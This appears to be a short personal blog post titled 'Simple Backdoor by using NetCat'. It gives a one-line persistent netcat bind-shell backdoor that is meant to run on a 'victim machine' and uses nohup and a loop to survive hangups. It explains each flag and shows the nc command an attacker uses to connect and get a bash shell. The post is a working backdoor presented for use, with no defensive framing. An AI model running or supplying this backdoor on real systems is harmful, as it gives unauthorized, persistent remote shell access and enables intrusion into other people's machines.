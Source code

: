 Title: Simple Backdoor by using NetCat  
Date: 2014-07-06 11:03  
Author: m157q  
Category: Security  
Tags: NetCat, nc, Backdoor  
Slug: simple-backdoor-by-using-netcat  
Modified: 2015-10-27 12:13  
  
  
## The one line script  
```sh  
$ nohup bash -c 'while true; do nc -l -e /bin/bash -p ${port}; done' &  
```  
  
  
## How this works  
  
+ `nohup` makes this backdoor immune to SIGHUP  
+ `bash -c ${string}` will run the `${string}` as command  
+ `nc -l` let nc keep listening on the port  
+ `nc -e ${sth}` means excute `${sth}` after connected  
+ `nc -p` to choose a port for nc to listen  
+ `${port}` is the backdoor port set on the victim machine.  
    + You can change it to a port number whatever you like.  
+ use shell scripting `while` for keeping listening  
  
  
## How to use  
  
After run the command above on the victim machine, you can just type  
  
```sh  
$ nc ${victim_ip} ${port}  
```  
  
to connect to the victim machine and get a bash shell as the same uid which ran the command.  
